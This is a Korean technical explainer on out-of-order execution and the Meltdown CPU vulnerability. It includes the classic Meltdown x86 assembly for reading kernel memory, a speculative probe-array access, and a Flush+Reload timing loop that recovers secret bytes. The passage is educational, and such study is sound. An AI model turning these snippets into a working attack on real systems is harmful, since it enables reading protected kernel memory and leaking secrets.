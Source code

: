 한 클럭 사이클에 최대 5개 명령어를 동시에 처리할 수 있어 **성능이 5배 향상**된다.

**비순차적 실행(Out-of-Order Execution)의 필요성**:

```c
*// 의존성이 있는 명령들*
lw $t0, 0($sp)      *// 1. 메모리에서 데이터 로드*
lw $t1, 4($sp)      *// 2. 다른 메모리에서 데이터 로드*
and $s1, $t0, $t1   *// 3. 1,2번 완료 후 실행 가능*
add $s2, $t0, $s1   *// 4. 1,3번 완료 후 실행 가능*
addi $s3, $t0, 20   *// 5. 1번만 완료되면 실행 가능*
```

순차 실행하면 각 단계마다 대기 시간이 발생하지만, **5번 명령은 3,4번과 독립적**이므로 먼저 실행 가능하다:

실행 순서: 1 → 2 → 5 → 3 → 4  (2 클럭 사이클 단축!)

### Meltdown 공격의 구체적 메커니즘

**핵심 공격 코드 (x86 어셈블리)**:

```nasm
; rcx = 커널 메모리 주소, rbx = 탐지용 배열
xor rax, rax          ; rax 레지스터 초기화
retry:
mov al, byte [rcx]    ; 커널 메모리에서 1바이트 읽기 (예외 발생!)
shl rax, 0xc          ; rax에 4096(페이지 크기)을 곱함
jz retry              ; 0이면 다시 시도
mov rbx, qword [rbx + rax]  ; rax번째 페이지에 접근
```

**공격 단계별 상세 분석**:

**1단계: 비순차적 실행 악용**

```c
*// 이론상 실행되지 않아야 하는 코드*
raise_exception();  *// 항상 예외 발생// 아래 줄은 절대 실행되지 않아야 함*
access(probe_array[secret_data * 4096]);
```

하지만 **비순차적 실행**으로 인해:

- CPU가 `raise_exception()`을 처리하기 전에
- `access()` 함수를 **추측으로 먼저 실행**
- **예외가 발생하면 실행 결과만 취소**, 캐시는 그대로!

**2단계: 캐시에 흔적 남기기**

L1 캐시 상태 변화:
[실행 전] 캐시 비어있음
[추측 실행] secret_data * 4096 주소의 데이터가 캐시에 로드
[예외 처리] 실행 결과는 취소, 하지만 캐시 데이터는 유지!

**3단계: Flush-Reload 공격으로 데이터 추출**

```c
*// 모든 페이지에 접근하며 시간 측정*
for (int i = 0; i < 256; i++) {
    start_time = rdtsc();  *// CPU 타임스탬프 카운터*
    temp = probe_array[i * 4096];  *// i번째 페이지 접근*
    end_time = rdtsc();
    
    access_time = end_time - start_time;
    if (access_time < CACHE_HIT_THRESHOLD) {
        *// 빠른 접근 = 캐시에 있음 = 비밀 데이터!*
        printf("비밀 바이트: %c\n", (char)i);
    }
}
```

